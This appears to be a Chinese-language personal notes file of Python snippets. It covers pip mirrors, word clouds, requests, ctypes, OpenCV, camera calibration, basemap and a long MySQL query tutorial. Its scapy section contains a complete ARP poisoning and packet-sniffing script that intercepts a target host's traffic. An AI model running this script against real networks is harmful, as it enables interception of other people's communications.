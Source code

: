 Python
==============

修改pip/conda的安装源
::

 conda config --add channels https://mirrors.tuna.tsinghua.edu.cn/anaconda/pkgs/free/
 conda config --set show_channel_urls yes

 新建pip/pip.ini
 [global]
 timeout = 6000
 index-url = https://pypi.tuna.tsinghua.edu.cn/simple
 trusted-host = pypi.tuna.tsinghua.edu.cn


词云
---------------

需要安装jieba、wordcloud
通过命令行直接生成词云的命令行::
 
 wordcloud_cli --text file_path.txt --imagefile wordcloud.png
 # 可以通过wordcloud_cli 进行更详细的调节,需要对文件分词,自带的分词效果较差
 # --fontfile path 支持中文
 # --mask file
 # --background white


通过jieba对中文分词处理::
 
 import jieba
 import wordcloud
 import matplotlib.pyplot as plt

 words = open(r'words.txt','rb').read().decode('utf-8')
 # print(words)
 cut_words = list(jieba.cut(words))
 cut_str = ' '.join(cut_words)
 print(cut_words)
 make = wordcloud.WordCloud(font_path=r'C:\Windows\Fonts\simkai.ttf')
 s = make.generate(cut_str)
 plt.imshow(s)
 plt.axis('off')
 plt.show()

requests
------------------

发送http请求
::

 url = 'https://www.baidu.com'
 headers = {'user-agent':""}
 proxy = {"http":"89.17.37.218:52957"} # 使用代理
 response = requests.get(url,params={"wd":"中国"},proxies=proxy)
 # response.content 是原始页面的byte类型,没有解码
 # response.text 是requests 解码后的数据,解码方式是推测的,可能出错

 response = request.post(url,data) # post 请求

urllib 
-----------------------

|    urllib 可以导入request(最为常用)、response、parse

>>> proxy = request.ProxyHandler({"http":"192.122.132.1"})
    opener = request.build_opener(proxy)
    opener.open(url)
 
lxml(XPath)
-------------------

::

 //div  任意位置div

 /div   根节点查找

 *      匹配任意节点

 @*     匹配任意属性

 @      匹配某一属性  

 1. //input[@id="str"] 精确匹配
 2. //input[@class,"f"] 模糊匹配

在python中的导入

>>> from lxml import html
html.etree.parse() # 传入文件地址
html.etree.fromstring() # 传入字符串



ctypes
-------------------------
python中使用ctypes模块可以在python中直接调用C/C++。首先要将C/C++编译成动态库（.dll或.so),之后python中调用即可。

在linux的编译命令如下
::

 gcc -shared -fPIC -o code.so code.c

普通方法

c代码
::

	int add(int a, int b)
	{
		int c;
		c = a + b;
		return c;
	}

python代码
::

	import ctypes
	Cfun = ctypes.DLL('code.so')  ##动态链接库所在目录
	Num1 = ctypes.c_int(10)         ##创建第一个输入参数,将参数类型指定为c_int即C语言中的int类型
	Num2 = ctypes.c_int(30)
	Cfun.add.restype=ctypes.c_int   ##将C函数的返回值类型定位c_int即C语言中的int类型,如果不先声明类型在使用非int变量时,返回值会不对
	Sum=Cfun.add(Num1,Num2)
	print(Sum)

使用指针

c代码
::

	void add_point(float* a, float* b, float* c)
	{
		*c = *a + *b;
		*a = 129.7;
	}

python代码
::

	import ctypes
	Cfun = ctypes.DLL('code.so')  ##动态链接库所在目录
	x1 = ctypes.c_float(1.9)
	x2 = ctypes.c_float(10.1)
	x3 = ctypes.c_float(0)
	Cfun.add_point(ctypes.pointer(x1), ctypes.pointer(x2), ctypes.pointer(x3)) ## ctypes.pointer()将参数指定为C中的指针类型
	print(x3.contents.value, x1.contents.value)  ##value代表变量的值

接收返回的指针

c代码
::

	int*  point(int* x)
	{
		int* y=NULL;
		y = x;
		return y;
	}

python代码
::

	x = ctypes.c_int(2560)
	Cfun.point.restype = ctypes.POINTER(ctypes.c_int)  ##声明函数返回值为int*
	y = Cfun.point(ctypes.pointer(x))
	print(y.contents.value)

接收返回的指针

c代码:
:

	void  array(int x[])
	{
	     *x = 100;
	}

python代码
::

	Array = ctypes.c_int * 4;  ##声明一维数组,数组长度为4
	a = Array(0, 1, 2, 3)  ##初始化数组
	Cfun.array(a)
	print(a[0], a[1], a[2], a[3])

声明二维数组
::

	Array = (ctypes.c_int * 4)*5  ##声明二维数组
	a=Array()

scapy
-------------------------
模拟三次握手
::
 
 windows查看端口 netstat
 
 send(),在第三层发送数据包,但没有接收功能
 sendp(),在第二层发送数据包,同样没有接收功能

 sr(),在第三层发送数据包,有接收功能
 sr1(),在第三层发送数据包,有接收功能,但只接收第一个包
 srloop(),在第三层工作,循环发包

 srp()、srp1()、srploop()与sr,sr1,srloop类似,只是工作在第二层
 开始模拟时需要设置防火墙规则,防止操作系统发送RST
 iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 192.168.233.1 -j DROP
 
 flags = 2 为SYN扫描,半开式扫描
 recv=sr1(IP(dst="192.168.233.1")/TCP(dport=10020,sport=7777,flags="S"))
 ack = recv.ack
 seq = recv.seq
 
 发送ACK(flag = 16),完成三次握手！
 send(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,flags=16,seq=ack,ack=seq+1))

 flag为24（ACK = 16,PUSH = 8) 发送数据
 recv1 = sr(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,flags=24,seq=ack,ack=seq+1)/"hi", multi=1, timeout=10)
 如果多次发送数据需要每次对获取的seq+1,然后令ack等于seq+1

 flags=17, FIN（1） + ACK（16）,进行连接终结
 recv1=srp1(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,seq=ack,ack=seq+1,flags=17))

arp投毒,抓包
::

 from scapy.all import *
 import os
 import sys
 import threading
 import signal
 from scapy.layers.l2 import ARP, Ether

 def restore_target(gateway_ip,gateway_mac,target_ip,target_mac):
    print("restore target >>>>>>>")
    send(ARP(op=2,psrc=gateway_ip,pdst=target_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=gateway_mac),count=5)
    send(ARP(op=2,psrc=target_ip,pdst=gateway_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=target_mac),count=5)
    os.kill(os.getpid(),signal.SIGINT)
 def get_mac(ip_address):
    responses,unanswered = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip_address),
                               timeout=2,retry=10)
    a = 1
    for s,r in responses:
        print(s)
        print("$"*20)
        print(r)
        return r[Ether].src
 def poison_target(gateway_ip,gateway_mac,target_ip,target_mac):
    print("begin to ARP poison")
    while True:
        try:
            send(ARP(op=2,psrc=gateway_ip,pdst=target_ip,hwdst=target_mac)) # 欺骗主机
            send(ARP(op=2,psrc=target_ip,pdst=gateway_ip,hwdst=gateway_mac)) # 欺骗网关
        except KeyboardInterrupt:
            restore_target(gateway_ip,gateway_mac,target_ip,target_mac)

    # print("stoped poison")
 if __name__ == '__main__':

    target_ip = '192.168.0.150'
    gateway_ip = '192.168.0.1'
    packet_count = 10
    conf.verb = 0
    gateway_mac = get_mac(gateway_ip)
    target_mac = get_mac(target_ip)
    print(gateway_mac,target_mac)
    poison_thread = threading.Thread(target=poison_target,args=(gateway_ip,gateway_mac,
                                                                target_ip,target_mac))
    poison_thread.start()
    try:
        bpf_filter = "ip host %s"%target_ip
        packets_ = sniff(count=packet_count,filter=bpf_filter) # 抓包
        wrpcap("arp.pcap",packets_)
        restore_target(gateway_ip,gateway_mac,target_ip,target_mac) # 恢复原先设置
    except KeyboardInterrupt:
        restore_target(gateway_ip, gateway_mac, target_ip, target_mac) # 恢复原先设置

    poison_thread.join()

opencv
---------------------
opencv 安装

1. pip install opencv-python==3.4.2.16

2. pip install opencv-contrib-python==3.4.2.16

::
 
 # 读取图片
 cv2.imread(img_path)
 # 读取影像
 video = cv2.VideoCapture(0) # 0 读取本地摄像头
 ret,frame = video.read() # frame 是每一帧,ret 是读取成功与否标志
 cv2.waitKey(10) # 每帧的间隔时间为10 0xFF==27(Esc键)
 
 # 基本操作
 b,g,r = cv2.split(img) # 拆分通道
 cv2.merge((b,g,r)) # 合并通道
 img = cv2.copyMakeBorder(img,20,20,10,10,cv2.BORDER_REFLECT) # 边界填充
 img = cv2.resize(img,(0,0),fx=0.5,fy=0.5) # 重新调整大小
 img = cv2.addWeighted(img,0.5,img,0.6,0) # 图像按权重融合

 # 阈值操作
 ret,img = cv2.threshold(img,127,255,cv2.THRESH_BINARY) 
 
 # 图像平滑
 img = cv2.blur(img,(3,3),borderType=cv2.BORDER_REFLECT) # 均值滤波
 img = cv2.boxFilter(img,-1,(3,3),normalize=True) # 方框滤波 不标准化越界后赋值为255
 img = cv2.medianBlur(img,3) # 中值滤波
 img = cv2.GaussianBlur(img,(3,3),1) # 权重处理
 
 # 形态学操作
 img = cv2.erode(img,np.ones((5,5),dtype=np.uint8),iterations=1) # 腐蚀最大值,针对最大值
 img = cv2.dilate(img,np.ones((5,5),dtype=np.uint8),iterations=1) # 膨胀
 img = cv2.morphologyEx(img,cv2.MORPH_OPEN,np.ones((5,5),dtype=np.uint8)) # 先腐蚀再膨胀
 img = cv2.morphologyEx(img,cv2.MORPH_CLOSE,np.ones((5,5),dtype=np.uint8)) # 先膨胀再腐蚀
 img = cv2.morphologyEx(img,cv2.MORPH_GRADIENT,kernel) # 梯度 膨胀-腐蚀
 # 礼帽=原始输入-开运算结果; 黑帽=闭运算-原始输入

 # 梯度
 img = cv2.Sobel(img,-1,dx=1,dy=1,ksize=3) # sober算子
 img = cv2.Scharr(img,cv2.CV_64F,dx=0,dy=1) # 细节更为丰富
 img = cv2.Laplacian(img,-1,ksize=3) # 对噪音敏感

 # 边缘检测
 # canny 1.高斯滤波 2.梯度(sober) 3.非极大值抑制 4.双阈值检测
 img = cv2.Canny(img,100,120) # 双阈值: minvalue 100,maxvalue 120

 # 高斯金字塔
 img = cv2.pyrUp(img) # 上采样
 img = cv2.pyrDown(img) # 下采样

 # 图像轮廓
 img,contours,hierarchy = cv2.findContours(img,cv2.RETR_TREE,cv2.CHAIN_APPROX_SIMPLE)
 res = cv2.drawContours(img,contours,-1,(0,255,0),1) # 绘制轮廓
 area = cv2.contourArea(contours[0]) # 计算轮廓面积
 arcLen = cv2.arcLength(contours[0],True) # 计算周长
 res = cv2.approxPolyDP(contours[0],0.1*cv2.arcLength(contours[0],True),True) # 近似周长(点)
 x, y, w, h = cv2.boundingRect(contours[0]) # 外界矩形
 rec = cv2.rectangle(img,(x,y),(x+w,y+h),(0,255,0)) # 绘制矩形

 # 直方图
 res = cv2.calcHist([img],[0],None,[256],[0,256]) # 计算直方图
 mask[50:150,50:150] = 255 # 制作mask

 # SIFT
 cv2.xfeature2d.SIFT_create() # 构建sift
 kp = sift.detect(gray,None) # 检测
 img = cv2.drawKeypoints(gray,kp,img)
 kp,des = sift.compute(gray,kp) # 128维向量

 # 特征匹配
 bf = cv2.BFMatcher(crossCheck=True) # 蛮力匹配
 bf.match()

 # 背景建模
 # 1. 帧差法
 # 2. 混合高斯模型(GMM)

相机标定原理

相机标定就是根据真实点与成像点之间建立关系求解相机内参、外参、畸变系数的过程；
在标定的过程中需要对四个坐标系进行转换,分别是:真实世界的坐标系、相机坐标系、图像坐标系、像素坐标系；
转变的顺序为是真实世界的坐标系中的点转为相机坐标系中的点转变为图片坐标系转变为像素坐标系中的点；
四个坐标系的关系如下:

 .. image:: 20161210141741307.png 
  :height: 580px
  :width: 820 px
  :scale: 50 %
  :alt: alternate text
  :align: center

1. 真实世界的坐标系转为相机坐标系

- 真实世界的坐标系转换为相机坐标系需要先对三个轴进行旋转,使的真实世界的x、y、z 的三个坐标轴与相机坐标系的三个轴平行,
最后将真实世界的坐标轴平移到与相机坐标系完全重合；

2. 相机坐标系转为图片坐标系

- 在该部分转换需要三角形相似的原理,转换示意图如下:

 .. image:: 20161210142740999.png 
  :height: 500px
  :width: 830 px
  :scale: 50 %
  :alt: alternate text
  :align: center

- 其中f为相机焦距,P点为真实世界的点,但是x、y、z 的值已经转换到相机坐标系中的值了,这样就可以求得图像坐标系中的x、y

3. 图片坐标系转换为像素坐标系

- 转换示意图如下:

 .. image:: 20161210143514044.png 
  :height: 440px
  :width: 750 px
  :scale: 50 %
  :alt: alternate text
  :align: center

- o点为像素原点,即照片的中心位置,现在要根据图像坐标系中的x、y值求得P点在图片的行列号是多少,
u的最大值为图片的宽度（横向总共有多少像素点）,v的最大值为图片的高度（纵向总共有多少像素点）

4. 整体的求解公式如下:

 .. image:: 20161210144703071.png 
  :height: 180px
  :width: 890 px
  :scale: 50 %
  :alt: alternate text
  :align: center

- 其中dx、dy为一个像素格点代表真实世界的长度,fx、fy分别为f/dx、f/dy,u0、v0分别为u/2、v/2,R、T分别为旋转矩阵、平移矩阵

具体的代码实现可参看 https://www.cnblogs.com/Undo-self-blog/p/8448500.html


basemap
------------------
::

 projection
 # Albers Equal Area Projection
 # lat_1 is first standard parallel.
 # lat_2 is second standard parallel.
 # lon_0,lat_0 is central point
 m = Basemap(width=8000000,height=7000000, resolution='l',projection='aea', lat_1=40.,lat_2=60,lon_0=35,lat_0=50)
 m.drawcoastlines() # 海岸线
 m.drawcountries() # 国家界限
 m.drawparallels(np.arange(-80.,81.,20.)) # 纬线
 m.drawmeridians(np.arange(-180.,181.,20.)) # 经线
 m.drawgreatcircle(90,35,100,50,color="r") # 连接线
 m.bluemarble() # draw a NASA Blue Marble image as a map background.卫星背景
 m.shadedrelief() # draw a shaded relief image as a map background,阴影背景
 m.etopo() # 浮雕(背景)
 m.quiver(90,45,1,5,color='g') # 添加矢量箭头

modis download script
-----------------------------------

1. 安装python(https://www.python.org/downloads/)

2. 找到python的安装目录,在cmd下使用cd命令到进入该目录(Scripts),使用dir命令查看当前目录文件。如果存在pip.exe说明当前位置正确,然后安装所需模块(GDAL文件需要全路径),安装命令如下

::

 pip install GDAL-3.0.1-cp38-cp38-win_amd64.whl
 pip install pymodis

3. 运行下载脚本(down_modis.py为下载脚本,需要给出脚本的本地全路径,本示例仅有文件名)

::
  cd ..
  python down_modis.py

MySQL 语句
-----------------------------

-- 数据的准备
	-- 创建一个数据库
	create database python_test charset=utf8;

	-- 使用一个数据库
	use python_test;

	-- 显示使用的当前数据是哪个?
	select database();

	-- 创建一个数据表
	-- students表
	
	::

	    create table students(
	    id int unsigned primary key auto_increment not null,
	    name varchar(20) default '',
	    age tinyint unsigned default 0,
	    height decimal(5,2),
	    gender enum('男','女','中性','保密') default '保密',
	    cls_id int unsigned default 0,
	    is_delete bit default 0
	    );

	
	-- classes表
	
	::

	    create table classes (
	    id int unsigned auto_increment primary key not null,
	    name varchar(30) not null
	    );


-- 查询
	-- 查询所有字段
	-- select * from 表名;
	
	::

	 select * from students;
	 select * from classes;
	 select id, name from classes;

	-- 查询指定字段
	-- select 列1,列2,... from 表名;
	
	::

	 select name, age from students;

	-- 使用 as 给字段起别名
	-- select 字段 as 名字.... from 表名;
	
	::

	 select name as 姓名, age as 年龄 from students;

	-- select 表名.字段 .... from 表名;
	
	::

	 select students.name, students.age from students;

	-- 可以通过 as 给表起别名
	
	-- select 别名.字段 .... from 表名 as 别名;
	
	::

	 select students.name, students.age from students;
	 select s.name, s.age from students as s;

	-- 失败的select students.name, students.age from students as s;
	
	-- 消除重复行
	
	-- distinct 字段
	
    ::

     select distinct gender from students;



-- 条件查询

	-- 比较运算符
		-- select .... from 表名 where .....
		
		-- >
		
		-- 查询大于18岁的信息
		
		::

		 select * from students where age>18;
		 select id,name,gender from students where age>18;

		-- <
		
		-- 查询小于18岁的信息
		
		::

		 select * from students where age<18;

		-- >=
		
		-- <=
		
		-- 查询小于或者等于18岁的信息
		
		-- =
		
		-- 查询年龄为18岁的所有学生的名字
		
		::

		 select * from students where age=18;

		-- != 或者 <>


	-- 逻辑运算符
		-- and
		
		-- 18到28之间的所以学生信息
		::

		 select * from students where age>18 and age<28;

		-- 失败select * from students where age>18 and <28;


		-- 18岁以上的女性
		
		::
		
		 select * from students where age>18 and gender="女";
		 select * from students where age>18 and gender=2;


		-- or
		
		-- 18以上或者身高查过180(包含)以上
		
		::

		 select * from students where age>18 or height>=180;


		-- not
		
		-- 不在 18岁以上的女性 这个范围内的信息
		
		-- select * from students where not age>18 and gender=2;
		
		::

		 select * from students where not (age>18 and gender=2);

		-- 年龄不是小于或者等于18 并且是女性
		
		::

		 select * from students where (not age<=18) and gender=2;


	-- 模糊查询
		-- like 
		
		-- % 替换1个或者多个
		
		-- _ 替换1个
		
		-- 查询姓名中 以 "小" 开始的名字
		
		::

		 select name from students where name="小";
		 select name from students where name like "小%";

		-- 查询姓名中 有 "小" 所有的名字
		
		::

		 select name from students where name like "%小%";

		-- 查询有2个字的名字
		
		::

		 select name from students where name like "__";

		-- 查询有3个字的名字
		
		::

		 select name from students where name like "__";

		-- 查询至少有2个字的名字
		
		::

		 select name from students where name like "__%";


		-- rlike 正则
		
		-- 查询以 周开始的姓名
		
		::

		 select name from students where name rlike "^周.*";

		-- 查询以 周开始、伦结尾的姓名
		
		::

		 select name from students where name rlike "^周.*伦$";


	-- 范围查询
		-- in (1, 3, 8)表示在一个非连续的范围内
		
		-- 查询 年龄为18、34的姓名
		
		::

		 select name,age from students where age=18 or age=34;
		 select name,age from students where age=18 or age=34 or age=12;
		 select name,age from students where age in (12, 18, 34);


		
		-- not in 不非连续的范围之内
		
		-- 年龄不是 18、34岁之间的信息
		
		::

		 select name,age from students where age not in (12, 18, 34);


		-- between ... and ...表示在一个连续的范围内
		
		-- 查询 年龄在18到34之间的的信息
		
		::

		 select name, age from students where age between 18 and 34;


		-- not between ... and ...表示不在一个连续的范围内
		
		-- 查询 年龄不在在18到34之间的的信息
		
		::

		 select * from students where age not between 18 and 34;
		 select * from students where not age between 18 and 34;

		-- 失败的select * from students where age not (between 18 and 34);


	-- 空判断
		-- 判空is null
		
		-- 查询身高为空的信息
		
		::

		 select * from students where height is null;
		 select * from students where height is NULL;
		 select * from students where height is Null;

		-- 判非空is not null
		
		::

		 select * from students where height is not null;


-- 排序
	-- order by 字段
	
	-- asc从小到大排列,即升序
	
	-- desc从大到小排序,即降序

	-- 查询年龄在18到34岁之间的男性,按照年龄从小到到排序

	::

	 select * from students where (age between 18 and 34) and gender=1;
	 select * from students where (age between 18 and 34) and gender=1 order by age;
	 select * from students where (age between 18 and 34) and gender=1 order by age asc;


	-- 查询年龄在18到34岁之间的女性,身高从高到矮排序

	::

	 select * from students where (age between 18 and 34) and gender=2 order by height desc;


	-- order by 多个字段
	
	-- 查询年龄在18到34岁之间的女性,身高从高到矮排序, 如果身高相同的情况下按照年龄从小到大排序

	::

	 select * from students where (age between 18 and 34) and gender=2 order by height desc,id desc;


	-- 查询年龄在18到34岁之间的女性,身高从高到矮排序, 如果身高相同的情况下按照年龄从小到大排序,
	
	-- 如果年龄也相同那么按照id从大到小排序

	::

	 select * from students where (age between 18 and 34) and gender=2 order by height desc,age asc,id desc;


	-- 按照年龄从小到大、身高从高到矮的排序

	::

	 select * from students order by age asc, height desc;


-- 聚合函数
	-- 总数
	
	-- count
	
	-- 查询男性有多少人,女性有多少人

	::

	 select * from students where gender=1;
	 select count(*) from students where gender=1;
	 select count(*) as 男性人数 from students where gender=1;
	 select count(*) as 女性人数 from students where gender=2;


	-- 最大值
	
	-- max
	
	-- 查询最大的年龄

	::

	 select age from students;
	 select max(age) from students;

	-- 查询女性的最高 身高

	::

	 select max(height) from students where gender=2;

	-- 最小值
	-- min


	-- 求和
	-- sum
	
	-- 计算所有人的年龄总和

	::

	 select sum(age) from students;


	-- 平均值
	-- avg
	
	-- 计算平均年龄

	::

	 select avg(age) from students;


	-- 计算平均年龄 sum(age)/count(*)

	::

	 select sum(age)/count(*) from students;


	-- 四舍五入 round(123.23 , 1) 保留1位小数
	
	-- 计算所有人的平均年龄,保留2位小数

	::

	 select round(sum(age)/count(*), 2) from students;
	 select round(sum(age)/count(*), 3) from students;

	-- 计算男性的平均身高 保留2位小数

	::

	 select round(avg(height), 2) from students where gender=1;

	-- select name, round(avg(height), 2) from students where gender=1;

-- 分组

	-- group by
	-- 按照性别分组,查询所有的性别

	::

	 select name from students group by gender;
	 select * from students group by gender;
	 select gender from students group by gender;

	-- 失败select * from students group by gender;

	-- 计算每种性别中的人数

	::

	 select gender,count(*) from students group by gender;


	-- 计算男性的人数

	::

	 select gender,count(*) from students where gender=1 group by gender;


	-- group_concat(...)
	
	-- 查询同种性别中的姓名

 	::

 	 select gender,group_concat(name) from students where gender=1 group by gender;
 	 select gender,group_concat(name, age, id) from students where gender=1 group by gender;
 	 select gender,group_concat(name, "_", age, " ", id) from students where gender=1 group by gender;

	-- having
	
	-- 查询平均年龄超过30岁的性别,以及姓名 having avg(age) > 30

	::

	 select gender, group_concat(name),avg(age) from students group by gender having avg(age)>30;
	
	-- 查询每种性别中的人数多于2个的信息
	
	::

	 select gender, group_concat(name) from students group by gender having count(*)>2;



-- 分页
	-- limit start, count

	-- 限制查询出来的数据个数

	::

	 select * from students where gender=1 limit 2;

	-- 查询前5个数据

	::

	 select * from students limit 0, 5;

	-- 查询id6-10（包含）的书序

	::

	 select * from students limit 5, 5;


	-- 每页显示2个,第1个页面

	::

	 select * from students limit 0,2;

	-- 每页显示2个,第2个页面

	::

	 select * from students limit 2,2;

	-- 每页显示2个,第3个页面

	::

	 select * from students limit 4,2;

	-- 每页显示2个,第4个页面

	::

	 select * from students limit 6,2; -- -----> limit (第N页-1)*每个的个数, 每页的个数;

	-- 每页显示2个,显示第6页的信息, 按照年龄从小到大排序

	::

	 select * from students order by age asc limit 10,2;

	 select * from students where gender=2 order by height desc limit 0,2;



-- 连接查询
	-- inner join ... on

	-- select ... from 表A inner join 表B;

	::

	 select * from students inner join classes;

	-- 查询 有能够对应班级的学生以及班级信息

	::

	 select * from students inner join classes on students.cls_id=classes.id;

	-- 按照要求显示姓名、班级

	::

	 select students.*, classes.name from students inner join classes on students.cls_id=classes.id;
	 select students.name, classes.name from students inner join classes on students.cls_id=classes.id;

	-- 给数据表起名字

	::

	 select s.name, c.name from students as s inner join classes as c on s.cls_id=c.id;

	-- 查询 有能够对应班级的学生以及班级信息,显示学生的所有信息,只显示班级名称

	::

	 select s.*, c.name from students as s inner join classes as c on s.cls_id=c.id;

	-- 在以上的查询中,将班级姓名显示在第1列

	::

	 select c.name, s.* from students as s inner join classes as c on s.cls_id=c.id;

	-- 查询 有能够对应班级的学生以及班级信息, 按照班级进行排序
	
	-- select c.xxx s.xxx from student as s inner join clssses as c on .... order by ....;

	::

	 select c.name, s.* from students as s inner join classes as c on s.cls_id=c.id order by c.name;

	-- 当时同一个班级的时候,按照学生的id进行从小到大排序

	::

	 select c.name, s.* from students as s inner join classes as c on s.cls_id=c.id order by c.name,s.id;

	-- left join
	-- 查询每位学生对应的班级信息

	::

	 select * from students as s left join classes as c on s.cls_id=c.id;

	-- 查询没有对应班级信息的学生

	::

	 select * from students as s left join classes as c on s.cls_id=c.id having c.id is null;
	 select * from students as s left join classes as c on s.cls_id=c.id where c.id is null;

	-- right join   on
	-- 将数据表名字互换位置,用left join完成

-- 自关联

	-- 查询所有省份
	select * from areas where pid is null;

	-- 查询出山东省有哪些市
	
	::

	 select * from areas as province inner join areas as city on city.pid=province.aid having province.atitle="山东省";
	 select province.atitle, city.atitle from areas as province inner join areas as city on city.pid=province.aid having province.atitle="山东省";

	-- 查询出青岛市有哪些县城

	::

	 select province.atitle, city.atitle from areas as province inner join areas as city on city.pid=province.aid having province.atitle="青岛市";
	 select * from areas where pid=(select aid from areas where atitle="青岛市")


-- 子查询
	-- 标量子查询
	-- 查询出高于平均身高的信息

	-- 查询最高的男生信息

	::

	 select * from students where height = 188;
	 sselect * from students where height = (select max(height) from students);

	-- 列级子查询
	-- 查询学生的班级号能够对应的学生信息
	-- select * from students where cls_id in (select id from classes);

















